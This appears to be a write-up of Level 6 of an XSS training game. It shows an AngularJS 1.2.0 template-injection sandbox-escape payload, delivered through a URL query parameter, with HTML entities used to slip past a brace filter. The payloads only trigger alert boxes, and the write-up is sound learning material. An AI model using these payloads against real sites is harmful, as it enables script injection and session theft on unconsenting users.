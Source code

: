 # XSS Game Write-Up: Level 6

![Image](https://github.com/user-attachments/assets/d334b0e7-27aa-4619-9908-2ed3d1fd54ac)

After entering the challenge, I followed the same steps I did in Level 5, which was to check the version of AngularJS. This time, I found it was an older version: **AngularJS v1.2.0**. So, I started looking for XSS vulnerabilities in this version and what payload I could use to exploit it. After some searching, I found this payload: 

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

![Image](https://github.com/user-attachments/assets/791736b8-9a6f-4d5f-98ee-fdc74aed9f7d)


I tried putting it in the search input, but it just rendered as a string and didn't execute or do anything.  

![Image](https://github.com/user-attachments/assets/bd0d88ad-c649-43b3-9e14-fe01bda67460)

So, I went back to the source code and noticed that the search form was using the POST method:

```html
<form action="/f/rWKWwJGnAeyi/" method="POST">
  <input id="demo2-query" name="query" maxlength="140" ng-model="query" placeholder="Enter query here...">
  <input id="demo2-button" type="submit" value="Search">
</form>
```

I thought, "Okay, what if I want to make the method GET so that it takes the payload from the URL?" What could I do? I saw that the search input has a name attribute, which is "query". What if I made this name a parameter in the URL and gave it the payload as its value? Would the server accept it, read it, and understand it? I decided to give it a try.

I added the attribute to the URL like this:
```
?query={{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

Nothing happened on the page, but when I checked the source code, I saw that what I wrote was reflected in the form's action, and the method turned to GET:

```html
<form action="/f/rWKWwJGnAeyi/?query=a='constructor';b=};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}" method="GET">
```

But when I opened the browser's dev tools, I noticed that the server understood the GET request, but it filtered out the }} characters.

![Image](https://github.com/user-attachments/assets/4ba21823-d3d4-4065-bad0-3b03c4739539)
 so what about replacing `{ `to `&lcub` 
making the payload look like this:
```ruby
?query=&lcub;&lcub;a='constructor';b=&lcub;&rcub;;a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert()')()}}
```

And it worked!

![Image](https://github.com/user-attachments/assets/672d32b9-32e7-4ec6-840f-2f1f62403bf2)
